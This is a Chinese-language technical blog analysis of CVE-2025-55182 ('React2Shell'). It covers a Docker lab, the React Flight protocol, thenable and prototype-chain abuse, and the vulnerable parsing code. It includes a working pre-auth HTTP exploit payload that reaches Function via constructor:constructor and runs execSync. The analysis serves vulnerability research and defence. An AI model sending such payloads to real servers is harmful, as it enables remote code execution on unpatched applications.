CVE-2025-55182: React2Shell
===

>本博客对CVE-2025-55182 (React2Shell) 的技术分析仅用于教育目的，旨在促进网络安全研究与防御技术的交流。

## Docker 搭建靶场

参考自: [知识星球](https://govuln.com/topic/)

### 文件准备

先装一个存在该漏洞的版本, 例如 15.5.6:

```bash
npx create-next-app@15.5.6 nextjs-1 --yes
```

进入刚刚的项目文件夹, 新建 `dockerfile`:

```dockerfile
# 使用当前 Next.js 推荐的 Node 运行时
FROM node:22-alpine

# 工作目录
WORKDIR /app

# 复制依赖文件 (加快构建) 
COPY package.json package-lock.json* yarn.lock* pnpm-lock.yaml* ./

# 安装依赖
RUN npm install

# 复制全部代码
COPY . .

# Next dev 默认端口
EXPOSE 3000
# Node inspector 调试端口
EXPOSE 9229

# 设置调试环境变量
ENV NODE_OPTIONS="--inspect=0.0.0.0:9229"

# 默认启动 next dev
CMD ["npm", "run", "dev"]
```

新建 `docker-compose.yml`:

```yml
version: "3.9"

services:
  nextjs:
    build:
      context: .
      dockerfile: Dockerfile
    container_name: nextjs-15-dev
    ports:
      - "3000:3000"
      - "9229:9229"
      - "9230:9230"
    environment:
      - NODE_ENV=development
      - NODE_OPTIONS=--inspect=0.0.0.0:9229
    volumes:
      - .:/app
      - /app/node_modules
    command: npm run dev
```

### 构建容器

```bash
docker-compose up --build
```

访问 9229 端口:



访问 3000 端口:



> 注意, 需要设置 `ENV NODE_OPTIONS="--inspect=0.0.0.0:9229"`, 如果不在 docker 内则需要设置 `export NODE_OPTIONS="--inspect=0.0.0.0:9229"`; 

网站主要用到的端口:
- 3000: Web 应用端口;
- 9229: dev 服务器的守护进程端口;
- 9330: 应用进程调试端口;

### 调试

用 Google Chrome 调试配置:

在 Chrome 浏览器中输入 `chrome://inspect` 并开启 9230 端口到远程地址, 然后重启容器:



之后再在 Chrome DevTools 中禁用忽略列表 (Enable Ignoring Listing), 就能看到了:





## 原理简述

### Promise 对象

#### 链式调用

> 引用自知识星球 P 神的博客;

早期的 JS 代码中含有大量函数嵌套, 使得维护调试困难, 代码不易复用, 例如:

```javascript
// BEFORE: 嵌套回调 - 多个独立上下文，变量需手动传递
getUser((err, user) => {
    if (err) handle(err);
    getPosts(user.id, (err, posts) => {
        if (err) handle(err);  // 重复错误处理
        getComments(posts[0].id, (err, comments) => {
            // user变量仍可访问，但作用域嵌套太深
        });
    });
});
```

因此从 ES6 开始, javascript 引入了 Promise 这个对象。Promise 对象将函数嵌套转换为链式调用, 例如:

```javascript
// AFTER: Promise链 - 统一上下文，线性作用域
getUser()
    .then(user => {
        this.user = user;  // 可保存在外部变量
        return getPosts(user.id);
    })
    .then(posts => {
        // 仍可访问 this.user
        return getComments(posts[0].id);
    })
    .catch(handleError); // 统一错误处理点

// 更进一步：async/await 的真正统一上下文
async function process() {
    try {
        const user = await getUser();     // 同一作用域
        const posts = await getPosts(user.id);
        const comments = await getComments(posts[0].id);
        // 所有变量在同一作用域，调试极其方便
    } catch (error) {
        handleError(error);
    }
}
```

就像 Spring 的 bean 链式构建一样, Promise 对象可以维护统一的方法 (`then/catch`) 并持续 return 一个 Promise。

#### 有限状态机

观察这段变化:

```javascript
// BEFORE
func1(function() {
  func2(function() {
    func3(function() {
      ...

// AFTER
func1()
  .then(func2)
  .then(func3)
  .catch(handleError);
```

可以看出, Promise 只存在 3 个状态:

- pending
- fulfilled
- rejected

状态机内部调度, `then()` 的返回值会决定下一环的执行:

| then 的返回值 | 下一环收到的         |
| ------------- | -------------------- |
| 普通值        | 直接进入 fulfilled   |
| Promise       | 等它 resolve 后继续  |
| 抛异常        | 自动进入下一环 `catch()` |

#### Thenable

为了保证对老代码的兼容, JS 引入了 thenable 这个概念: **任何对象只要有 `then()` 这个方法, 就是一个 thenable 对象**; 它可以替代 Promise 的功能，在 await 等需要 Promise 的位置使用 (在 `then()` 里写一个闭包)。

#### 安全隐患

Promise 的设计初衷是可维护性, 但其统一接口 + 可组合性为攻击链构造提供了便利; 控制流全部由 `then` / `catch` 维护, 使得代码更加容易挂载, 并且更好预测。

结合 Thenable 协议, 任何对象 (即使非 Promise), 只要 Key 值可以被用户控制, 那么就可以伪造一个 Thenable 对象;

> 攻击者甚至不需要真的构造 Promise, 只要一个对象带 then 属性即可劫持执行链。

### React Server Components (RSC) 

> 参考博客: [CVE-2025-55182 React Server Components 反序列化漏洞原理深度分析](https://rustlang.rs/posts/CVE-2025-55182/#%E4%BA%8Creact-server-components-%E6%8A%80%E6%9C%AF%E8%83%8C%E6%99%AF)

RSC 是 React 18 引入的新范式, 允许组件在服务端渲染并将结果流式传输到客户端。

```
┌─────────────────────────────────────────────────────────────────┐
│                    React Server Components 架构                  │
├─────────────────────────────────────────────────────────────────┤
│                                                                  │
│  ┌──────────────┐         ┌──────────────┐                      │
│  │   Browser    │ ←─────→ │   Server     │                      │
│  │              │  HTTP   │              │                      │
│  │ ┌──────────┐ │         │ ┌──────────┐ │                      │
│  │ │ Client   │ │         │ │ Server   │ │                      │
│  │ │Components│ │         │ │Components│ │                      │
│  │ └──────────┘ │         │ └──────────┘ │                      │
│  │      ↑       │         │      ↓       │                      │
│  │      │       │         │  ┌────────┐  │                      │
│  │      └───────┼─────────┼──│ Flight │  │                      │
│  │   Flight     │         │  │Protocol│  │                      │
│  │   Protocol   │         │  └────────┘  │                      │
│  └──────────────┘         └──────────────┘                      │
│                                                                  │
└─────────────────────────────────────────────────────────────────┘
```

如图所示, 与传统 SSR 不同, RSC 可以直接访问服务端资源而无需 API; 保持了交互性使客户端可以无缝协作

### React Server Functions

React Server Functions (或 Server Actions) 允许客户端像调用本地函数一样调用服务端函数:

#### 调用例

- Server Function 定义方式

```javascript
// app/actions.js
'use server'  // 标记为 Server Function

export async function submitForm(formData) {
    // 这段代码只在服务端执行
    const name = formData.get('name');
    await db.users.create({ name });
    return { success: true };
}
```

- 客户端调用方式

```javascript
// app/page.jsx (Client Component)
'use client'
import { submitForm } from './actions';

export default function Form() {
    async function handleSubmit(e) {
        e.preventDefault();
        const formData = new FormData(e.target);
        // 看起来像本地调用，实际是 HTTP POST
        const result = await submitForm(formData);
    }
    return <form onSubmit={handleSubmit}>...</form>;
}
```

#### 底层通信

Flight 协议实际上就是给通信加了一层壳, 这个壳的作用和 Python 中的 pickle 包是类似的, 定义了发送, 解析的格式:



#### Server Action 请求格式

```http
POST /page-url HTTP/1.1
Host: example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxk
Next-Action: 1a2b3c4d5e6f7890abcdef1234567890abcdef12
Next-Router-State-Tree: [encoded-tree]

------WebKitFormBoundary7MA4YWxk
Content-Disposition: form-data; name="1_$ACTION_ID_1a2b3c..."

------WebKitFormBoundary7MA4YWxk
Content-Disposition: form-data; name="0"

["$K1"]
------WebKitFormBoundary7MA4YWxk--
```

|Header|功能|特点|示例|
|----|----|----|----|
|`Next-Action`|Server Action 的唯一标识符|40 字符哈希|`1218dsu2132dd..`|
|`Content-Type`| 内容类型 |只能是 `multipart/form-data`|`multipart/form-data; boundary=...`|
|`Next-Router-State-Tree`|路由状态|可选项|`[encoded]`|

#### Action ID 生成

逻辑简化:

```javascript
// Next.js 内部生成逻辑 (简化) 
actionId = hash(
    filePath +          // 文件路径: "app/actions.js"
    exportName +        // 导出名: "submitForm"
    functionBody        // 函数体哈希
);
```

需要注意的是, 对于 **Next.js 15+**, 这里的哈希不是 SHA1/MD5 ,而加密、非确定性的标识符, 这些标识在不同构建之间可能变化。**在编译时生成，并在构建之间周期性重新计算以增强安全性。**

> 旧版本中可能是基于 SHA-1

### React Flight 协议

Filght 协议是一个**自定义流式序列化协议**, 其作用就和 php, python pickle 中的序列读取类似;

|目标|   说明|
|----|----|
|流式传输|支持边渲染边传输, 无需等待完整响应|
|引用共享|相同数据只传输一次, 通过 ID 引用|
|类型保留|保留 React 特有类型 (Promise、组件、函数引用等) |
|紧凑高效|比纯 JSON 更紧凑, 减少传输体积|
|双向支持|服务端→客户端 (渲染) 和客户端→服务端 (Server Actions) |

> 紧凑高效
>
>    Flight 支持分块引用:
>
>    ```javascript
>    // 普通 JSON - 无法表示引用、Promise、函数等
>    {
>        "user": {"name": "Alice"},
>        "posts": [{"author": {"name": "Alice"}}]  // user 重复传输
>    }
>    ```
>
>    ```javascript
>    // Flight 协议 - 支持引用共享
>    0:{"name":"Alice"}           // Chunk 0: user 对象
>    1:{"author":"$0"}            // Chunk 1: 引用 Chunk 0
>    2:{"user":"$0","posts":["$1"]}  // Chunk 2: 根对象
>    ```

#### Flight 数据格式

Flight 协议的数据格式:

```
<id>:<type>{<map> (键值对)}
```

常见 Type:

|Type|说明|用例|
|:----:|----|----|
|`<空>`|模型数据 (json)|`0:{"name":"Alice"}`|
|`I`|模块导入|`0:I{"id":"./page.js","name":"default"}`|
|`H`| 指令|`0:H["prefetch","/api"]`|
|`S`|Symbol| `0:S"react.element"`|
|`E`|错误|`0:E{"message":"Error"}`|

一个完整的 Filght 响应示例:

```json
0:I{"id":"./app/page.js","name":"default","chunks":["app/page"]}
1:{"name":"Alice","age":25}
2:["$","div",null,{"children":[["$","h1",null,{"children":"Hello"}],"$L3"]}]
3:{"user":"$1","loading":false}
```

#### Chunk 状态机

Chunk 也是一个状态机, 具有和 Promise 对象相同的三个状态: - pending, fulfilled, rejected (因为 Chunk 本质上就是继承 Promise 对象), 在此基础上, 添加了两个新状态:

---

```
┌─────────────────────────────────────────────────────────────────────────┐
│                         Chunk 状态转换图                                 │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│              ┌─────────────┐                                            │
│              │   pending   │ ← 初始状态，等待数据到达                    │
│              └──────┬──────┘                                            │
│                     │                                                    │
│                     │ 收到 Flight 行数据                                 │
│                     ▼                                                    │
│           ┌─────────────────┐                                           │
│           │ resolved_model  │ ← 有原始 JSON 字符串，待解析               │
│           └────────┬────────┘                                           │
│                    │                                                     │
│                    │ 被 await 或访问 .value 时                           │
│                    │ 调用 initializeModelChunk()                         │
│                    ▼                                                     │
│     ┌──────────────────────────────────────────┐                        │
│     │                                          │                        │
│     ▼                                          ▼                        │
│ ┌─────────────┐                        ┌─────────────┐                  │
│ │  fulfilled  │ ← 解析成功，有最终值    │  rejected   │ ← 解析失败       │
│ │             │                        │             │                  │
│ │ chunk.value │                        │chunk.reason │                  │
│ │ = 解析结果  │                        │ = Error     │                  │
│ └─────────────┘                        └─────────────┘                  │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

#### Chunk 内部数据结构

```javascript
// React 源码: packages/react-client/src/ReactFlightClient.js

// Chunk 本质是一个 ReactPromise 对象
function ReactPromise(status, value, reason, response) {
    this.status = status;      // "pending" | "resolved_model" | "fulfilled" | "rejected"
    this.value = value;        // pending 时是监听器数组，fulfilled 时是解析结果
    this.reason = reason;      // pending 时是监听器数组，rejected 时是错误
    this._response = response; // 所属的 Response 对象
}

// Chunk 继承 Promise 行为
ReactPromise.prototype = Object.create(Promise.prototype);

// 关键的 then 方法实现
ReactPromise.prototype.then = function(resolve, reject) {
    var chunk = this;
    switch (chunk.status) {
        case "fulfilled":
            resolve(chunk.value);
            break;

        case "pending":
        case "blocked":
            // 添加到监听器队列
            if (resolve) chunk.value.push(resolve);
            if (reject) chunk.reason.push(reject);
            break;

        case "resolved_model":
            // ⚠️ 关键：触发解析
            initializeModelChunk(chunk);
            // 解析后递归处理
            chunk.then(resolve, reject);
            break;

        case "rejected":
            reject(chunk.reason);
            break;
    }
};
```

#### Response 对象

Flight 解析会话创建一个 Response 对象, 管理所有 Chunk:

```javascript
function createResponse(bundlerConfig, formData, prefix) {
    return {
        _bundlerConfig: bundlerConfig,  // Webpack/Turbopack 配置
        _formData: formData,            // 原始 FormData（Server Action）
        _prefix: prefix,                // Chunk ID 前缀
        _chunks: new Map(),             // id → Chunk 映射
        _closed: false,                 // 流是否关闭
        _closedReason: null,            // 关闭原因
    };
}

// 从 Response 获取或创建 Chunk
function getChunk(response, id) {
    let chunk = response._chunks.get(id);
    if (!chunk) {
        // 从 FormData 获取数据
        const data = response._formData.get(response._prefix + id);
        if (data != null) {
            chunk = new ReactPromise("resolved_model", data, id, response);
        } else {
            chunk = new ReactPromise("pending", [], [], response);
        }
        response._chunks.set(id, chunk);
    }
    return chunk;
}
```

#### 特殊变量

`$` 前缀系统来表示特殊值。

##### 常见字符表

| 前缀 | 类型说明        | 示例           | 含义描述                | 解析方式                     |
| ---- | --------------- | -------------- | ----------------------- | ---------------------------- |
| `$`    | Chunk 引用      | "$123"         | 引用 chunk 123 的解析值 | getChunk(123).value          |
| `$@`   | **原始 Chunk**      | "$@123"        | 获取 chunk 对象本身     | getChunk(123) (不解引用)     |
| `$L`   | Lazy 引用       | "$L123"        | 惰性加载的 chunk        | 返回 lazy wrapper            |
| `$F`   | Server Function | "$F123"        | 服务端函数引用          | 创建代理函数                 |
| `$B`   | Blob 数据       | "$B123"        | 二进制数据              | `formData.get(prefix + "123")` |
| `$K`   | FormData        | "$K123"        | FormData 引用           | 解析 FormData                |
| `$Q`   | Map 引用        | "$Q123"        | Map 数据结构            | 解析为 Map                   |
| `$W`   | Set 引用        | "$W123"        | Set 数据结构            | 解析为 Set                   |
| `$n`   | Number          | "$n123"        | 大数字                  | BigInt(123)                  |
| `$u`   | undefined       | "$undefined"   | undefined 值            | `undefined`                    |
| `$D`   | Date            | "$D2024-01-01" | 日期对象                | new Date(...)                |
| `$$`   | 转义            | "$$abc"        | 字面量 $abc             | `$abc` (去掉一个 $)          |

##### `$` 链式属性访问

除了简单引用外, Flight 还支持链式访问:

```javascript
// 语法: "$<chunkId>:<key1>:<key2>:..."

// 示例: "$1:user:profile:name"
// 等价于: getChunk(1).value.user.profile.name
```

解析源代码:

```javascript
function parseModelString(response, parentObj, key, value) {
    if (value[0] === '$') {
        switch (value[1]) {
            case '$':
                return value.slice(1);  // 转义
            case '@':
                // 原始 chunk 引用
                return getChunk(response, parseInt(value.slice(2), 16));
            case 'B':
                // Blob 处理 ⚠️ 攻击利用点
                var id = parseInt(value.slice(2), 16);
                return response._formData.get(response._prefix + id);
            // ... 其他类型
            default:
                // 链式引用: "$1:key1:key2"
                var ref = value.slice(1);
                var colonIdx = ref.indexOf(':');
                if (colonIdx > -1) {
                    var id = parseInt(ref.slice(0, colonIdx), 16);
                    var path = ref.slice(colonIdx + 1);
                    var chunk = getChunk(response, id);
                    // ⚠️ 漏洞: 直接访问属性链，无 hasOwnProperty 检查
                    return loadServerReference(chunk, path);
                }
                return getChunk(response, parseInt(ref, 16));
        }
    }
    return value;
}
```

### 漏洞点

1. `$` 与 `$@` 的解析区别:

```javascript
// 假设 Chunk 0 的原始数据是: '{"name": "Alice"}'

// ===== "$0" - 普通引用 =====
// 返回解析后的 JavaScript 值
parseModelString("$0")
// 执行流程:
//   1. getChunk(0) → Chunk 对象
//   2. 如果 status 是 "resolved_model"，调用 initializeModelChunk
//   3. 返回 chunk.value (解析后的值)
// 结果: { name: "Alice" }  ← 普通 JS 对象

// ===== "$@0" - 原始 Chunk 引用 =====
// 返回 Chunk 对象本身，不解析
parseModelString("$@0")
// 执行流程:
//   1. getChunk(0) → Chunk 对象
//   2. 直接返回（不调用 initializeModelChunk）
// 结果:
ReactPromise {
    status: "resolved_model",
    value: '{"name": "Alice"}',
    reason: null,
    _response: Response {...},
    __proto__: ReactPromise.prototype  // ⚠️ 可访问原型链！
}
```

`$@` 返回的是一个完整的 Promise 对象, **包含 `__proto__`**;

> `Chunk.__proto__` - `ReactPromise.prototype`
>
> `Chunk.__proto__.then` - `ReactPromise.prototype.then`
>
> `Chunk.__proto__.constructor` = `Object` -> `Function`

2. `getChunk`

```javascript
function getChunk(response, id) {
    var chunks = response._chunks;
    var chunk = chunks.get(id);

    if (!chunk) {
        // 注意, 如果 Chunk 不存在，尝试从 FormData 获取
        var formData = response._formData;
        if (formData) {
            var data = formData.get(response._prefix + id);
            if (data != null) {
                // 创建 resolved_model 状态的 Chunk
                chunk = new ReactPromise(
                    "resolved_model",  // status
                    data,              // value (原始 JSON 字符串)
                    id,                // reason (这里存 id)
                    response           // response
                );
            }
        }
        if (!chunk) {
            // 创建 pending 状态的 Chunk
            chunk = createPendingChunk(response);
        }
        chunks.set(id, chunk);
    }
    return chunk;
}
```

可以从包里直接构造 Chunk; data 是完全可控的;

3. `initializeModelChunk` 

```javascript
function initializeModelChunk(chunk) {
    var response = chunk._response;
    var value = chunk.value;  // 原始 JSON 字符串

    try {
        // 解析 JSON，过程中处理 $ 引用
        var parsed = parseModel(response, value);

        // 更新 Chunk 状态
        chunk.status = "fulfilled";
        chunk.value = parsed;
    } catch (error) {
        chunk.status = "rejected";
        chunk.reason = error;
    }
}
```

利用 `$` 执行特殊处理即可, 攻击者通过 FormData 提供的数据会被直接用于创建 Chunk，data 参数完全可控。

4. `ReactPromise.prototype.then` - thenable 接口

```javascript
ReactPromise.prototype.then = function(resolve, reject) {
    var chunk = this;

    switch (chunk.status) {
        case "fulfilled":
            // 已解析，直接返回值
            if (resolve) resolve(chunk.value);
            break;

        case "pending":
        case "blocked":
            // 等待中，注册回调
            if (resolve) chunk.value.push(resolve);
            if (reject) chunk.reason.push(reject);
            break;

        case "resolved_model":
            // ⚠️ 关键: 需要解析
            initializeModelChunk(chunk);
            // 解析后递归处理
            if (chunk.status === "fulfilled") {
                if (resolve) resolve(chunk.value);
            } else if (chunk.status === "rejected") {
                if (reject) reject(chunk.reason);
            }
            break;

        case "rejected":
            if (reject) reject(chunk.reason);
            break;
    }
};
```

注意: `then` 方法会在一个 thenable 对象被 `await` 使触发, 进一步只要在构造 chunk 时编辑其状态为 `resolved_model`, 即可触发解析;

从这一步开始进入了 Promise (Thenable) 对象的链式解析, 只要有一处完成注入, 理论上后续内容全部可以注入;

### react-server-dom-webpack  包

```javascript
// 简化的漏洞代码
function loadServerReference(chunk, path) {
    // path = "key1:key2:key3"
    var keys = path.split(':');
    var value = chunk.value;  // 起始值

    for (var i = 0; i < keys.length; i++) {
        var key = keys[i];
        // ⚠️ 漏洞: 直接使用方括号访问
        // 没有检查 key 是否是对象自身属性
        value = value[key];
    }

    return value;
}
```

## 攻击链

服务器在处理 Flight 请求时会按顺序解析客户端提供的 chunk map。由于 chunk ID 与 chunk value 均完全由客户端控制, 考虑这个构造:

```javascript
chunk1 = "$@0"
chunk0 = { then: payload }
```


`$@0` 会令服务器将 `chunk1` 的值解析为 `chunk0` (thenable) 对象本身
React Flight 解析器在解引用时会自动执行: 

```javascript
chunk0.then(resolve, reject)
```

最终触发 payload 中植入的任意逻辑; 配合上 `__proto__` 的组合拳, 就可以完成原型链污染;

### 攻击原语

| 键路径                               | 值                     | 作用描述                    |
| ------------------------------------ | ---------------------- | --------------------------- |
| `$1:__proto__:then`                  | `Chunk.prototype.then` | 让伪造对象成为合法 thenable |
| `$1:constructor:constructor`         | `Function`             | 动态创建并执行代码          |
| `$1:__proto__:constructor`           | `Object`               | 获取 Object 构造函数        |
| `$1:__proto__:constructor:prototype` | `Object.prototype`     | 访问所有对象的原型          |


### 攻击图示

#### 基本流程



#### HTTP 攻击 payload 示例

```http
POST / HTTP/1.1
Host: vulnerable-nextjs-app.com
Content-Type: multipart/form-data; boundary=----FormBoundary
Next-Action: x

------FormBoundary
Content-Disposition: form-data; name="0"

{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,"value":"{\"then\":\"$B1337\"}","_response":{"_prefix":"throw new Error(require('child_process').execSync('id').toString());","_chunks":"$Q2","_formData":{"get":"$1:constructor:constructor"}}}
------FormBoundary
Content-Disposition: form-data; name="1"

"$@0"
------FormBoundary
Content-Disposition: form-data; name="2"

[]
------FormBoundary--
```

#### 源代码层面的完整流程

1. 预认证反序列化链



2. 第一次 then 链 (解析 `$1:__proto__:then`)

